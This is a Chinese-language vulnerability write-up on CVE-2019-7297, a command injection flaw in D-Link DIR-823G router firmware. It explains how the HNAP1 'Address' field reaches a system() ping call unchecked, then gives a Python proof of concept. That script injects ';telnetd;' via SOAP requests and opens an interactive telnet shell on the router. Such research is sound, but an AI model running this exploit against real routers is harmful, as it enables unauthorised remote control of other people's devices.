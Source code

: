 # （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2019-7297.html](http://book.iwonder.run/iot/D-Link/CVE-2019-7297.html)

## 一、漏洞简介

D-Link DIR 823G 1.02B03 及之前的版本中存在命令注入漏洞，攻击者可通过发送带有 shell 元字符的特制/HNAP1 请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult 函数中调用 system 函数，执行的内容中包括不受信任的用户输入 Address 字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03 及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的 GetNetworkTomographyResult 函数是在 goahead 二进制文件中实现的。在 function_list 中找到对应的函数地址。

GetNetworkTomographyResult 获取 address，number，size 参数，作为 ping 的参数。

![image](img/3c2ce69e44703aa87ec21a92065d5430.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在 system 之前并没有对这些外来参数进行检查，如果 address 为`;telnetd;`就能启动 Telnet 服务。可以看出这些参数都是通过 apmib_get 获取的，那么在之前一定有 apmib_set 进行设置，在 IDA 中查找关键字 0x1b72，0x1b73，0x1b73，定位到 apmib_set 的位置，结合 ghidra 的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](img/15d56af8756dfcf685546de14f216bfc.png)

### poc

```
import requests
from pwn import *

IP='192.168.0.1'

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/SetNetworkTomographySettings"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/">\
      <Address>;telnetd;</Address>\
      <Number>4<Number>\
          <Size>4</Size>\
     </SetNetworkTomographySettings></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetNetworkTomographyResult"'
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/">\
     </GetNetworkTomographyResult></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive() 
```

